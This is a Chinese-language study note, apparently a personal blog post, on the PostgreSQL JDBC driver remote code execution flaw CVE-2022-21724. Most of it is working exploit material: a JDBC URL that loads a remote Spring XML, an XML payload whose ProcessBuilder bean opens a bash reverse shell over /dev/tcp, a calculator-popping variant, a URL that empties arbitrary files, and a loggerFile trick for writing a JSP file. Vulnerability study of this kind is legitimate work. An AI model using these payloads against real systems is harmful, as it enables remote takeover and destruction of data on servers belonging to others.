 #  JDBC

## PostgreSQL 

学习：[PostgresQL JDBC Drive 任意代码执行漏洞(CVE-2022-21724)](https://xz.aliyun.com/t/11812)

### 影响范围

`9.4.1208 <=PgJDBC <42.2.25`

`42.3.0 <=PgJDBC < 42.3.2`

### poc（socketFactory/socketFactoryArg）

```java
        String driver = "org.postgresql.Driver";
        Class.forName(driver);
        String DB_URL = "jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://127.0.0.1:8080/exp.xml";
        Connection conn = DriverManager.getConnection(DB_URL);
```

文章很多都分析了就说点自己注意的点：（实例化`socketFactory`传入唯一一个参数`socketFactoryArg`）
![image-20221125183629413](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202211251836485.png)

也就是说这里可以实例化任意一个类。
![image-20221125183721466](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202211251837576.png)

那么这里如何构造这个参数呢？
在`org.postgresql.Driver#parseURL`中：
直接说逻辑了：
1、先通过`？`分割`DB_URL`

2、判断是否是`jdbc:postgresql:`开头（后续简单跟一下，来到urlArgs）

3、通过`&`进行分割存入String[]数组中，然后分别存入urlProps.setProperty。

#### xml

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
        <list>
	    <value>/bin/sh</value>
            <value>-c</value>
            <value>bash -i &gt;&amp; /dev/tcp/ip/443 0&gt;&amp;1</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
        <list>
            <value>open</value>
            <value>-a</value>
	    <value>Calculator</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```

#### 其他利用

或者利用 FileOutputStream 将任意文件置空(`jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=java.io.FileOutputStream&socketFactoryArg=test.txt`)

### poc（sslfactory/sslfactoryarg）

未复现成功（懒了 懒得去linux下弄了）

### poc（loggerLevel/loggerFile）

略。

```
      String DB_URL = "jdbc:postgresql://node1/test?loggerLevel=TRACE&loggerFile=hack.jsp";
```

需要其他组件配合。例如log4j。实战中利用可以注意的点是可以`目录穿越`

## 修复

https://xz.aliyun.com/t/11812#toc-4